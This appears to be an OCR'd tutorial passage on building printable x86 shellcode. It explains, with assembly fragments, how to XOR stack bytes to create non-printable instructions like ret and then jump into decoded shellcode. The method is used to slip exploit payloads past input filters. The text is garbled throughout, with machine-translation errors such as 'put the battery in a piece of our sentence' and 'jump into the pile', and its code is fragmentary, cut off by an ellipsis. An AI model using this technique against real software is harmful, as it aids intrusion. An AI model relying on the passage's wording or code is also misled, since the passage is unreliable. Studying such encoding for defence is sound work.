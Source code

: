 inc ecx; must increment ecx to point to the first byte of the stack.
push dword 0x4f51322f; We put the battery in a piece of our sentence.
xor [ecx], bh; Can we edit each byte in the same manner as the first method.
inc ecx; ecx must increment each time to edit the next byte.
push word 0x5050
pop dx
xor [ecx], dh
inc ecx
…

To jump into the pile must first put the address of the stack into the stack and make a retd.
The ret instruction in place push eip address on the stack ie the address of our shellcode decoded.

push esp
ret

Unfortunately ret is not printable, so use the same method as above and edit
byte in advance to give the ret instruction.

push word 0x7070
pop dx
xor [eax + 100], dh

To find the step to add eax, we can use NDISASM to be precise or save a
fairly large number (which is always included in the printable characters).
It will then add several L at the shellcode, this corresponds to a decrement esp
and a ‘xor 70’ gives the ret instruction.
The queue implementation will therefore arrive on the L which has been transformed into ret and jump into the pile!